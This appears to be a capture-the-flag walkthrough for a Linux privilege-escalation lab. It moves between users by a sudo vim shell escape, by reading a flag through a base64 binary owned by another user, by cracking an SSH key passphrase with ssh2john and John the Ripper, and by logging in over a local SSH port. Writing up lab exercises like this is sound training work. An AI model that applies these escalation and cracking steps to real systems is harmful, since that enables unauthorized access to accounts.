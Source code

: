#### Sean's Flag
The repeating things `sudo -l`, you will find a way with the `vim` command, and go to [GTFobins](https://gtfobins.github.io/gtfobins/bash/) and take the shell code...
```bash
sudo -u sean vim -c ':!/bin/sh'
```
But where the flag!!!!!!
This command will search recursively in the files to find `sean` written i any file.
```bash
grep -rn "sean{" /var/log 2>/dev/null
```
Then decode the `base64` code..
```bash
echo "VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==" | base64 -d
```

---

#### Penelope's Flag
just enter the password n the previous decoded code.

---
#### Maya's Flag

We have a the binaries of `base64` tool, this binaries have access to run as `maya` because `maya` is the owner of it and the permissions that Penelope has for this file is `r-x` read and execute permissions so `Penelope` can run this code as `Maya`, The flag expected place is in `/home/maya/falg.txt` and while the binaries have access like `Maya` we can access this file letting this file goes and encode the flag then we encode it again.
```bash
./base64 /home/maya/flag.txt | ./base64 -d
```
We conclude from the hint on `tryhackme` site that the flag equals the password of `Maya`...

---
#### Robert's Passphrase
The file that has the targets says that there is an ssh script opened from `robert` device so first let's got to the directory called`old ssh`, you will find the ssh file, take it and get the hash of it by `ssh2john`:
```bash
ssh2john {ssh file} > {hash file}
```
then go and crack with the `john the ripper` with `rockyou` wordlist..
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt {hash file}
```
And you will get the password, Now go listen to the open ports...
```bash
ss -tulnp
```
The listener is on `127.0.0.1:2222`, now ssh to it with the cracked password...
```bash
ssh -p 2222 robert@127.0.0.1
```
---
